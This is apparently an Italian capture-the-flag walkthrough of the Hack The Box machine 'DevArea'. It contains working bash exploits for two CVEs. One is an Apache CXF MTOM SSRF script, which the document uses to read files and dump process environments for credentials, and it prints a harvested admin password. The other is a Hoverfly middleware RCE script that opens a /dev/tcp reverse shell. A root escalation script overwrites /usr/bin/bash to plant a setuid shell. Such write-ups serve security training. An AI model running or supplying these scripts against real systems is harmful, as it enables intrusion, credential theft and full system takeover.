# **DevArea**

## Reconnaissance



- FTP v3.05 sulla porta 21/tcp

- OpenSSH v9.6p1 sulla porta 22/tcp

- Apache Server v2.4.58 sulla porta 80/tcp

- Jetty v9.4.27 sulla porta 8080/tcp

- Golang server sulla porta 8500/tcp e 8888/tcp

Dominio:

- devarea.htb

Si accede al server FTP con l'account *anonymous*: 



Si scarica il file JAR.

    $ nxc ftp devarea.htb -u anonymous -p  --get pub/employee-service.jar

Con il browser si visitano gli endpoint HTTP esposti dalla macchina target:









### Codebase analysis

Si decompila il file JAR e si analizza il contenuto:





E' l'implemetazione di un web service esposto sulla porta 8080/tcp per l'invio di Report.



Usando come riferimento il WSDL del web service si crea uno script per l'interazione:



Dal file delle dipendenze del "./META-INF/maven/com.environment/employee-service/pom.xml" si ottiene la versione del framework utilizzato per il Web Service.



- Apache CXF v3.2.14

## CVE-2022-46364

Apache CXF è vulnerabile ad attacchi SSRF che sfruttano il parsing dell'attributo href dell'elemento XOP:Include delle richieste Message Transmission Optimization Mechanism (MTOM).

Lo script che esegue l'attacco:

```bash
#!/bin/bash

echo -e "===== [ CVE-2022-46364 ] =====\n"

TARGET="http://devarea.htb:8080/employeeservice"
NAMESPACE="http://devarea.htb/"
SSRF="$1"

echo "[*] Target web service: $TARGET"
echo "[*] Target namespace: $NAMESPACE"
echo "[*] SSRF payload: $SSRF"

PAYLOAD=$(cat <<EOF
--boundary
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-Transfer-Encoding: 8bit
Content-ID: <root>

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:xop="http://www.w3.org/2004/08/xop/include"
xmlns:dev="$NAMESPACE">
<soapenv:Header/>
<soapenv:Body>
<dev:submitReport>
<arg0>
<confidential>true</confidential>
<department>IT Security</department>
<employeeName>Mario Rossi</employeeName>
<content><xop:Include href="$SSRF"/></content>
</arg0>
</dev:submitReport>
</soapenv:Body>
</soapenv:Envelope>
--boundary--
EOF
)

DATA=$(curl -i -s -X POST "$TARGET" \
-H 'Content-Type: multipart/related; type="application/xop+xml"; start="<root>"; start-info="text/xml"; boundary="boundary"' \
-H 'SOAPAction: ""' \
--data-binary "$PAYLOAD")

echo -e "\n----- Result -----\n"

echo "$DATA" | grep -oP '(?<=Content: ).*?(?=</return>)' | base64 -d

echo -e "\n------------------\n"
```



Utenti con accesso all shell:

- root
- dev_ryan

### Data exfiltration



Queste informazioni sono state usate per individuare tra le [Releases](https://github.com/SpectoLabs/hoverfly/releases) la versione esatta di HoverFly presente sulla macchina target.

- HoverFly v1.11.3

Dalla documentazione di [Hoverfly](https://tjcunliffe.gitbooks.io/hoverfly-test/content/docs/reference/flags_and_environment_variables.html) si deduce che le credenziali per accedere al portale sono passate al servizio *hoverfly*.

L'idea è quella di individuare il processo del servizio Hoverfly e accedere alle sue variabili d'ambiente.

Si utilizza il seguente script che sfrutta la CVE-2022-46364:

```bash
#!/bin/bash

echo "--- PIDS ---"

PIDS=$(./CVE-2022-46364.sh 'file:///proc/' | grep -oE '[0-9]+')

echo "n=$(echo "$PIDS" | wc -l)"

echo "--- Read Environ ---"

for pid in $PIDS; do
    DATA=$(./CVE-2022-46364.sh "file:///proc/$pid/environ" 2>/dev/null | tr '\0' '\n')

    RESULT=$(printf "%s" "$DATA" | sed -n '/----- Result -----/,/------------------/p' | sed '1d;$d')

    MATCH=$(printf "%s" "$RESULT" | grep -c .)

    if [[ "$MATCH" -ne 0 ]]; then
        echo -e "\nPID: $pid"
        printf "%s\n" "$RESULT\n"
    fi
done
```



E' presente il servizio **hoverfly.service**.



- admin:O7IJ27MyyXiU

Si accede al portale Hoverfly:



## CVE-2025-54123

Hoverfly <= v1.11.3 sonole versioni vulnerabili ad attacchi di tipo RCE con utente autenticato.

Si utilizza il seguente script per eseguire sulla macchina remota una reverse shell:

```bash
#!/bin/bash

echo -e "===== [ CVE-2025-54123 ] =====\n"

TARGET="http://devarea.htb:8888/api/v2/hoverfly/middleware"
HOST="$1"
PORT="$2"
TOKEN="$3"

echo "[*] Target host: $TARGET"
echo "[*] Reverse shell to $HOST:$PORT"

CMD="bash -i >& /dev/tcp/$HOST/$PORT 0>&1"

echo -e "\n----- RCE (Background job) -----\n"

curl -i -X PUT "$TARGET" \
-H "Authorization: Bearer $TOKEN" \
-H "Content-Type: application/json" \
--data "{\"binary\":\"/bin/bash\",\"script\":\"$CMD\",\"remote\":\"\"}" &
```

Viene passato come parametro il TOKEN di autorizzazione.



## Shell as dev_ryan

Si accede al file user.txt:





Si scarica il file ZIP syswatch-v1.zip e lo si analizza.



Si nota che "syswatch.sh" permette di eseguire alcuni plugin come root:



- Plugin: **log_monitor.sh**



Il file **bash** è world-writable e quindi sovrascrivibile per eseguire codice arbitrario as root sfruttando i privilegi del processo syswatch.

## Privilege Escalation

L'idea è quella di sfruttare inserire in **bash** del codice che verrà eseguito con i privilegi di root con il lancio del processo syswatch per l'esecuzione del plugin *log_monitor.sh*:



Si deve utilizzare una shell **sh** per terminare l'istanza corrente bash e di conseguenza non avere errori nella sovrascrittura del file.

Si genera una coppia di chiavi SSH per l'accesso remoto alla mcchina target con l'utente dev_ryan:

```bash
dev_ryan@devarea:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGwnMNs/1NbVAAyTxgRU/MtIrpXE0w5nFnyyloa+gUbK ap@parrot' >> ~/.ssh/authorized_keys
```

Si accede alla shell sh:

```bash
$ ssh -i /tmp/devarea dev_ryan@devarea.htb -t sh
```

Si esegue sulla macchina target il seguente script per la privilege escalation:

```bash
#!/bin/sh
echo "STAGE 1: Backup"
cp -p /usr/bin/bash /tmp/bash && echo "Copied!"

echo "STAGE 2: Inject Code"
echo "#!/bin/sh\nchown root:root /tmp/bash && chmod 4777 /tmp/bash;\nexit 0" > /usr/bin/bash && echo "Injected (setuid)"

echo "STAGE 3: Exploit syswatch"
sudo /opt/syswatch/syswatch.sh plugin log_monitor.sh "pwned"

echo "STAGE 4: Restore"
cp /tmp/bash /usr/bin/bash && echo "Restored"

echo "STAGE 5: Check"
ls -lah /tmp/bash
```

